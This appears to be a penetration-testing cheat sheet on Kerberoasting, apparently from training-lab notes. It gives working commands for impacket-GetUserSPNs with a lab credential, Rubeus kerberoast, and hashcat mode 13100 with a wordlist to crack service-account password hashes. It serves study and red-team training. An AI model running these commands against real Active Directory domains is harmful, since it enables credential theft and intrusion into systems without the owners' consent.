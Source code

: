 # Kerberoasting

The service ticket is encrypted using the SPN's password hash. If we can request the ticket and decrypt it using brute force or guessing, we can use this information to crack the cleartext password of the service account. This technique is known as [_Kerberoasting_](https://blog.harmj0y.net/redteaming/kerberoasting-revisited/).

## Linux

Enumerates SPN accounts and requests their Kerberos service tickets:

{% code overflow="wrap" %}
```
sudo impacket-GetUserSPNs hutch.offsec/fmcsorley:CrabSharkJellyfish192 -dc-ip 192.168.219.122
```
{% endcode %}

* `hutch.offsec/fmcsorley:CrabSharkJellyfish192`\
  The domain, username, and password used to authenticate to the domain controller.
* `-dc-ip 192.168.219.122`\
  Specifies the IP address of the domain controller to query.

Request TGS and output hashes for cracking:

{% code overflow="wrap" %}
```sh
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```
{% endcode %}

* &#x20;**-dc-ip:** IP of the domain controller
* **-request:** obtain the TGS and output them in a compatible format for Hashcat

## Windows

Kerberoasting using Rubeus:

```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

* **kerberoast:** launch kerberoasting technique&#x20;
* **/outfile:** file to store the resulting TGS-REP hash

As we execute Rubeus as an **authenticated domain user**, the tool will identify all SPNs linked with a domain user.

## Crack the hash

Identify hash mode for hashcat:

```sh
hashcat --help | grep -i "Kerberos"
```

Crack the hash:&#x20;

{% code overflow="wrap" %}
```sh
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}



